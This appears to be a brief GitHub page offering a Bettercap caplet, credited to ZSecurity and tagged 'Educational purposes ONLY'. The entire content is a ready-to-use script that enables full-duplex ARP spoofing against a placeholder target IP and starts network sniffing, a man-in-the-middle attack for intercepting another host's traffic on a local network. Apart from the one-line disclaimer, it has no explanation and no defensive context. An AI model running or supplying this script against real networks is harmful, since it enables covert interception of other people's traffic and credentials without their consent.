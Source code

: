 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on                                                                                                                          
set arp.spoof.fullduplex true                                       
set arp.spoof.targets 10.0.2.7 (target IP here)                               
arp.spoof on                           
net.sniff on`
